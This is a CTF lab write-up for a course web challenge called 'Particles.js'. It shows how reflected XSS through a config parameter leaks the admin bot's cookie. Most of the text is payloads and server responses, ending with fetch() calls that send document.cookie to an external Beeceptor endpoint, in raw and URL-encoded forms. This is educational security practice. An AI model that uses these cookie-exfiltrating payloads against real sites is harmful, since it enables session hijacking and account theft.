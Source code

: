 ```yaml
---
title: Simple Web - 0x08(Lab - `Particles.js`)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x08(Lab - `Particles.js`)
###### tags: `CTF` `Web` `eductf`
Challenge: https://particles.ctf.zoolab.org

## Description
The website can change the theme of layout. The main goal is to leak admin's cookie.

## Source Code

### Analysis

## Exploit - XSS
1. Use burp suit to check if the website has XSS vulnerability.
![](https://i.imgur.com/eu4Qqrs.png)
2. Try to modify `config` parameter
Payload 1: `1;alert(123);console.log({x://\`
    :::spoiler Response 1
    ```javascript!
    ...
    <script>
        url.value = location; config.value = '1;
        alert(123);
        console.log({x://\'; fetch('/1;alert(123);console.log({x://\.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or
    Payload 2: `</script><script>alert(123);</script>`
    :::spoiler Response 2
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    '; fetch('/</script>
    <script>
        alert(123);
    </script>
    .json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or 
    Payload 3: `</script><script>alert(123);</script><script>console.log({x://`
    :::spoiler Response 3
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    <script>
        console.log({x://'; fetch('/
    </script>
    <script>   
        alert(123);
    </script>
    <script>
        console.log({x://.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    ![](https://i.imgur.com/yDcnYv8.png)
3. `fetch` + [`Beeceptor`](https://beeceptor.com/)
Payload: 
    ```javascript!
    </script><script>fetch(%22https://sbk6401.free.beeceptor.com?%22%2bdocument.cookie);</script>
    ```
    **<font color="FF0000">Note that:</font>** MUST TRANSFER `+` AND `"` TO `%2B` AND `%22` RESPECTIVELY
    URL: 
    ```!
    https://particles.ctf.zoolab.org/?config=%3C/script%3E%3Cscript%3Efetch(%22https://sbkkk.free.beeceptor.com?%22%2bdocument.cookie);%3C/script%3E
    ```
    ![](https://i.imgur.com/VIPx7bb.png)

4. Report to author
Must encoded by [`URL encode`](https://www.urlencoder.org/)
Payload:
    ```!
    https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbkkk.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    ![](https://i.imgur.com/HMhXfGN.png)
    ![](https://i.imgur.com/1qNlp1t.png)

* Other payload:
    :::spoiler payload
    Payload 2
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E%3Cscript%3Econsole.log%28%7Bx%3A%2F%2F
    ```
    Payload 3
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    :::